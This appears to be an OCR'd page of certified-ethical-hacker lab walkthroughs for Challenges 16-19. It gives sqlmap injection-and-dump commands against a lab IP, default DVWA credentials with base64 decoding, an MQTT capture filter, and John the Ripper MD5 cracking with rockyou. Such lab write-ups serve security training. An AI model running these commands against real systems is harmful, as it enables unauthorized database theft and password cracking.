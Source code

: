 **Challenge 16**:

Perform SQL injection attack on a web application, cybersec.cehorg.com, available at 192.168.44.40. Find the value in the Flag column in one of the DB tables and enter it as the answer. (Format: *aNNaNAA)

```bash
sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 --dbs
sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name -
T table_name -C Flag --dump
```

**Challenge 17**:

A set of files has been uploaded through DVWA (http://192.168.44.32:8080/DVWA). The files are located in the "C:\wamp64\www\DVWA\ECweb\Certified\" directory. Access the files and decode the base64 ciphers to reveal the original message among them. Enter the decrypted message as the answer. You can log into the DVWA using the credentials admin/password. (Format: A**aaa*AA)

```bash
Look for files within the directory that appear to be encoded in base64. 
These filestypically have extensions that suggest they contain encoded data, such as .txt, .dat, .bin, etc.
Download the base64 encoded file(s) to yourlocalmachine.
cat filename.txt | base64 --decode > decoded.txt
#win
Get-Content filename.txt | ForEach-Object { [System.Text.Encoding]::UTF8.GetS
tring([System.Convert]::FromBase64String($_)) } > decoded.txt
```

**Challenge 18**:

Analyze the traffic capture from an IoT network located in the Documents folder of the "EH Workstation – 1" (ParrotSecurity) machine, identify the packet with IoT Publish Message, and enter the topic length as the answer. (Format: N)

`mqtt.msgtype == 3`

```bash
Look through the filtered packetsto find an MQTT Publish Message.Each
MQTT Publish message has a topic associated with it.
Once you locate an MQTT Publishmessage, examine the topic field
The topic length is the number of characters or bytesthatmake up the topic string.
If, forinstance, you find an MQTT Publishmessage with a topic length of 9 characters,such as
sensors/temperature , then the answer would be 9
```

**Challenge 19**:

A disgruntled employee of your target organization has stolen the company's trade secrets and encrypted them using VeraCrypt. The VeraCrypt volume file "Its_File" is stored on the C: drive of the "EH Workstation – 2" machine. The password required to access the VeraCrypt volume has been hashed and saved in the file .txt in the Documents folder in the "EH Workstation – 1" (ParrotSecurity) machine. As an ethical hacker working with the company, you need to decrypt the hash in the Hash2crack.txt file, access the Veracrypt volume, and find the secret code in the file named EC_data.txt. (Format: NA*aNaa**A)

```bash
Open Hash2crack.txt on parrot and copy the hashed password. 
The hash is typically represented as a string of
characters(e.g., MD5, SHA256, etc.)
john --format=Raw-MD5 --wordlist=rockyou.txt Hash2crack.txt
On "EH Workstation 2" machine, open VeraCrypt
Select Its_File and choose the option to mount it
Locate and Open EC_data.txt

```
